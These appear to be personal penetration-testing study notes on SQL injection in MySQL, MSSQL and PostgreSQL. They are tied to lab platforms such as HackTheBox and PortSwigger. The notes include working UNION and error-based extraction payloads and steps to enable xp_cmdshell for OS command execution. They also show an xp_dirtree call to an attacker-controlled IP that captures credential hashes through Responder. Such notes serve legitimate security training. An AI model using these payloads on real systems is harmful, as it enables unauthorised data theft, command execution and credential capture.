 # SQLi

## MySQL/MariaDB (3306)

{% embed url="https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md" %}

{% embed url="https://github.com/oncybersec/time-blind-sqli/tree/main" %}
Time-based SQLI, if boolean and error fail
{% endembed %}

Lock in w me twin

```bash
mysql [--skip-ssl] -h [IP] -u[username] -p[pass]
```

{% code title="Info Dumping" %}
```sql
SELECT DISTINCT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[db]' LIMIT 0,1
SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='[db]' and table_name='[table]' LIMIT 0,1
```
{% endcode %}

```sql
man' UNION select 1,@@version,3,4,5,6;-- - [assuming column 3 content gets diplayed on webpage]
1' order by <number> --It will order by column number specified, only return error when that column number does not exist
--Need to figure out data type used by each column to know where to inject
```

### Error Based&#x20;

{% hint style="info" %}
Refer Monitored \[Medium]
{% endhint %}

Aim to induce an error, not a successful query, info will be returned in error message

```sql
id=1 AND extractvalue(1,version())
id=1 AND extractvalue(1,concat(0x0a, (SELECT * from [db] where table_name='[table]' limit 0,1)))
group_concat([colname]) will return all rows of an attribute in one query
```

### Blind Boolean/Error

{% hint style="info" %}
Refer Soccer \[Easy]
{% endhint %}

Get the SQLi payload on point and start fuzzing based on response code / error, refer scripts for more info

### UDF (User Defined Function)

SQLI -> execute commands within SQL command, transfer and use a reverse shell

{% embed url="https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8" %}

{% embed url="https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf" %}

{% embed url="https://r3dbuck3t.notion.site/MySQL-UDF-functions-3542db4a45ba4b7ea9b946098f9f80a3" %}

### Rana's Playlist (PortSwigger)

{% embed url="https://www.youtube.com/playlist?list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf" %}
Walkthroughs of all PortSwigger SQLi labs
{% endembed %}

#### Lab 4

For UNION attacks to work, the number of columns selected must be the same as original query and the data type used as well eg. if second column of original query uses text your UNION second column must do the same.

`GIfts' order by 4—` (order by also helps determine number of columns apart from the NULL method, whichever number used that columns is used for grouping as seen)

#### Lab 6 (Multiple attributes in single column)

select concat(user, ':', password) from users--\
select user || ':' || password from users--

Both do the same thing (incase of keyword filters)

#### Lab 11 (Blind w conditional responses)

Burp intruder clusterbomb allocates diff payload sets to diff payload positions and performs all combinations exactly what we need (ASCII of all values and numbers to iterate positions)

#### Lab 12

I didnt understand lmao

#### Lab 15 & 16&#x20;

wtf is out of band interaction fr

### Natas&#x20;

#### Labs 14, 15 and 17 watch&#x20;

{% embed url="https://youtu.be/jBhYI8Zna0w" %}

## MSSQL (1433)

{% hint style="info" %}
Refer StreamIO \[Medium]
{% endhint %}

```
.\SQLCMD.EXE -S localhost -U [user] -P [password] -d [database] -Q "select table_name from streamio_backup.information_schema.tables;"

python3 mssqlclient.py [-port {opt}] [domain]/[user]:[password]@[dc] {-windows-auth}
enable_xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

sudo responder -I tun0
EXEC master.sys.xp_dirtree '\\10.10.14.9\myshare',1, 1
```

## PostgreSQL (5432)

```
psql -h localhost -p 5432 -U [user] -d [database]
\list
\c [dbname]
\dt
\d [table] (listing schema for table users)
select * from [table];
```
